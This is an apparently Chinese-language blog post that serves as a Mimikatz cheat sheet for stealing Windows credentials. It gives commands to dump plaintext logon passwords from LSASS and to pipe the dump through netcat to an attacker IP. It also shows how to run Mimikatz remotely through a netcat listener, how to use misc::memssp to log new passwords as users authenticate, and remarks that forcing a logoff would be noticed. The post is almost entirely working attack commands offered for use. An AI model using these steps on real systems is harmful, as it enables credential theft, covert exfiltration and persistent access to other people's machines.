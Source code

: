```yaml
---
id: 250
title: 'Mimikatz   常用'
date: 2018-09-05T10:09:26+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=250
permalink: /?p=250
categories:
  - 未分类
---
```

1.记录 Mimikatz输出：  
`C:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir`  
2.将输出导入到本地文件：  
`C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt`  
3.将输出传输到远程机器：  
Attacker执行:  
`E:\>nc -lvp 4444`  
Victim执行:  
`C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.52.1 4444`  
_192.168.52.1 为Attacker IP_

4.通过nc远程执行Mimikatz：  
Victim执行:  
`C:\>nc -lvp 443`  
Attacker执行:  
`E:\>nc.exe -vv 192.168.52.128 443 -e mimikatz.exe`  
_192.168.52.128 为Victim IP_

_若管理员有每过几天就改密码的习惯，但是mimikatz抓取到的密码都是老密码_

<em id="__mceDel"><em>用QuarksPwDump等抓的hash也是老hash，新密码却抓不到的情况下</em></em>

_可以使用以下方法尝试解决_

_privilege::debug  
misc::memssp</p> 

记录的结果在c:\windows\system32\mimilsa.log  
每次验证都会记录  如 锁屏 等  重启失效</em>

_<em id="__mceDel">出现如上问题是因为管理一直没注销过，都是直接断开连接，lsass进程里面还吃存放的老的。</em>_

_也可以直接logoff，但是这样会很明显。_